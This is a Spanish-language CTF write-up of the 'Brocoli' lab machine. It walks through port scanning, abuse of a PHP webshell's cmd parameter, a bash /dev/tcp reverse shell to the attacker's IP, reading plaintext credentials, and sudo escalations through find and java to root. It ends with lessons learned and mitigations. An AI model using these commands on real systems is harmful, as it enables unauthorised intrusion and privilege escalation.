## Información General

| Campo               | Detalle             |
| ------------------- | ------------------- |
| Máquina             | Brocoli             |
| Plataforma          | TheHackersLabs      |
| Dificultad          | Facil               |
| IP objetivo         | 192.168.241.164     |
| Sistema operativo   | Linux (Ubuntu)      |
| Servicios expuestos | SSH (22), HTTP (80) |

## Resumen del Ataque

La máquina expone un servidor Apache con la página por defecto de Ubuntu, cuyo código fuente esconde una cadena en Base64 a modo de pista temática ("broccoli"). La enumeración de directorios revela una carpeta `/uploads` con listado abierto que contiene un archivo `informebrocoli.txt` (un hash MD5, descartado como pista) y un script `brocoli.php` vulnerable a ejecución remota de comandos a través del parámetro `cmd`, lo que permite obtener una shell como `www-data`. Tras estabilizar la TTY, la enumeración post-explotación revela credenciales en texto claro en `/opt/credenciales.txt`, que permiten el acceso SSH como el usuario `brocoli`. Desde ahí, un privilegio `sudo` mal configurado sobre el binario `find` permite pivotar al usuario `brocolon` (técnica GTFOBins), y un segundo privilegio `sudo` sobre `java`, esta vez con permisos totales, permite escalar directamente a `root`.

## Técnicas Usadas

- Escaneo de puertos con Nmap (TCP SYN full-range + detección de servicios/versiones)
- Revisión de código fuente HTML y decodificación Base64
- Fuzzing de directorios con `dirsearch`
- Explotación de RCE vía parámetro `cmd` en script PHP (webshell)
- Reverse shell y estabilización de TTY (`script` + `stty raw -echo` + `reset xterm`)
- Cracking de hash MD5 con CrackStation (pista descartada, no usada en la cadena final)
- Enumeración post-explotación de archivos de configuración/credenciales
- Escalada de privilegios abusando de `sudo` sobre `find` (GTFOBins)
- Escalada de privilegios abusando de `sudo` sobre `java` (GTFOBins)

## Desarrollo

### 1. Escaneo de puertos (todos los puertos)

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.164
```



### 2. Detección de servicios y versiones

```
nmap -p- 22,80 -sC -sV -oN allports 192.168.241.164
```



Únicamente SSH y HTTP accesibles. Se prioriza la enumeración web.

### 3. Revisión de la página por defecto de Apache

```
http://192.168.241.164/
```



Página por defecto de Apache. En el código fuente aparece una cadena Base64 oculta como comentario:



### 4. Decodificación de la cadena Base64

```
echo "YXF1aW5vaGF5bmFkYSBwZWxvYnJvY29saQo=" | base64 -d
```



**Pista descartada:** el mensaje decodificado ("aquí no hay nada pelo brócoli") es un guiño temático de la máquina, no aporta credenciales ni rutas útiles. Se descarta y se continúa con la enumeración de directorios.

### 5. Fuzzing de directorios

```
dirsearch -u http://192.168.241.164/ --exclude-status 403,404,500 -e php,txt,html
```



### 6. Listado abierto en /uploads

```
http://192.168.241.164/uploads/
```



Dos archivos de interés: `informebrocoli.txt` y `brocoli.php`.

### 7. Lectura de informebrocoli.txt

```
http://192.168.241.164/uploads/informebrocoli.txt
```



Se crackea el hash MD5 con CrackStation, obteniendo `mecmec`.

**Pista descartada:** esta credencial no llegó a utilizarse en ningún punto de la cadena de explotación (no coincide con ningún usuario del sistema encontrado más adelante); se trata de otro señuelo temático de la máquina.

### 8. Primer acceso a brocoli.php (error 500)

```
http://192.168.241.164/uploads/brocoli.php
```



Sin parámetros el script devuelve un error 500, indicio de que espera algún parámetro GET.

### 9. Descubrimiento de RCE vía parámetro cmd

```
http://192.168.241.164/uploads/brocoli.php?cmd=id
```



Confirmada la ejecución remota de comandos.

### 10. Obtención de reverse shell

```
nc -lvnp 1234
```

```
http://192.168.241.164/uploads/brocoli.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```



### 11. Estabilización de la TTY

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@TheHackersLabs-Brocoli:/var/www/html/uploads$ whoami
```



### 12. Enumeración de usuarios del sistema

```
www-data@TheHackersLabs-Brocoli:/var/www/html/uploads$ cat /etc/passwd | grep bash
```



### 13. Intento fallido de acceso a los home de usuarios

```
www-data@TheHackersLabs-Brocoli:/$ cd /home
www-data@TheHackersLabs-Brocoli:/home$ cd brocoli

www-data@TheHackersLabs-Brocoli:/home$ cd brocolon/
```



Ambos directorios personales están protegidos para `www-data`. Se continúa buscando en otras rutas del sistema.

### 14. Credenciales en texto claro en /opt

```
www-data@TheHackersLabs-Brocoli:/opt$ cat credenciales.txt
```



### 15. Acceso SSH como brocoli

```
ssh brocoli@192.168.241.164
```

```
brocoli@TheHackersLabs-Brocoli:~$ whoami
```



### 16. Enumeración de privilegios sudo (brocoli)

```
brocoli@TheHackersLabs-Brocoli:~$ sudo -l
```



`brocoli` puede ejecutar `find` como `brocolon` sin contraseña — vector clásico de GTFOBins.

### 17. Intento fallido de privesc con find

```
brocoli@TheHackersLabs-Brocoli:~$ sudo -u brocolon /usr/bin/find . -exec /bin/bash \; -quit
```



Falla porque el directorio de trabajo actual (`/home/brocoli`) no es accesible para `brocolon`. Se repite la técnica desde una ruta neutral.

### 18. Escalada a brocolon (find desde /tmp)

```
brocoli@TheHackersLabs-Brocoli:~$ cd /tmp
brocoli@TheHackersLabs-Brocoli:/tmp$ sudo -u brocolon /usr/bin/find . -exec /bin/bash \; -quit
```

```
brocolon@TheHackersLabs-Brocoli:/tmp$ whoami
```



### 19. Flag de usuario

```
brocolon@TheHackersLabs-Brocoli:/tmp$ cd /home/brocolon
brocolon@TheHackersLabs-Brocoli:~$ cat user.txt 
```



### 20. Enumeración de privilegios sudo (brocolon)

```
brocolon@TheHackersLabs-Brocoli:~$ sudo -l
```



`brocolon` puede ejecutar `java` como cualquier usuario (incluido root) sin contraseña.

### 21. Escalada a root vía java

```
brocolon@TheHackersLabs-Brocoli:/tmp$ nano root.java
```

```java
import java.io.*;
public class root {
    public static void main(String[] args) throws Exception {
        Process p = new ProcessBuilder("/bin/bash").inheritIO().start();
        p.waitFor();
    }
}
```

```
brocolon@TheHackersLabs-Brocoli:/tmp$ sudo java root.java
```

```
root@TheHackersLabs-Brocoli:/tmp# whoami
```



### 22. Flag de root

```
root@TheHackersLabs-Brocoli:/tmp# cd /root
root@TheHackersLabs-Brocoli:~# cat root.txt 
```



## Lecciones Aprendidas

- Los mensajes ocultos en el código fuente (comentarios, Base64) suelen ser hints temáticos del CTF, pero no siempre forman parte de la cadena de explotación real: conviene registrarlos y descartarlos explícitamente en lugar de asumir que son un callejón sin salida sin verificarlos.
- Un listado de directorios abierto (`Index of /`) puede filtrar tanto pistas señuelo como archivos vulnerables reales (`brocoli.php`); cada archivo encontrado merece su propia validación.
- Un script PHP que devuelve 500 sin parámetros no implica que esté roto: puede estar esperando un parámetro GET/POST no documentado (en este caso, `cmd`).
- Al abusar de `sudo` con binarios como `find`, el directorio de trabajo actual importa: si el usuario destino no tiene permisos sobre el `cwd`, el binario puede fallar antes de llegar al `-exec`. Ejecutar desde una ruta neutral como `/tmp` evita este problema.
- Una regla `sudo` `(ALL:ALL) NOPASSWD` sobre un intérprete como `java` equivale a ejecución de código arbitrario como cualquier usuario, incluido root.

## Medidas de Mitigación

- Eliminar comentarios y datos residuales (Base64, credenciales, notas de desarrollo) del código fuente servido en producción.
- Desactivar el listado de directorios (`Options -Indexes`) en la configuración de Apache.
- Retirar de producción cualquier script de administración/depuración que acepte comandos del sistema vía parámetros HTTP (`brocoli.php?cmd=`), o protegerlo con autenticación y validación estricta de entrada.
- No almacenar credenciales en texto claro en archivos accesibles por el usuario del servicio web (`/opt/credenciales.txt`).
- Restringir las reglas de `sudo` a los comandos mínimos necesarios y evitar delegar en binarios listados en GTFOBins (`find`, `java`, etc.) sin restricciones adicionales (rutas fijas, argumentos limitados, `NOEXEC`, etc.).
- Aplicar el principio de mínimo privilegio: revisar periódicamente `sudo -l` para todos los usuarios del sistema.


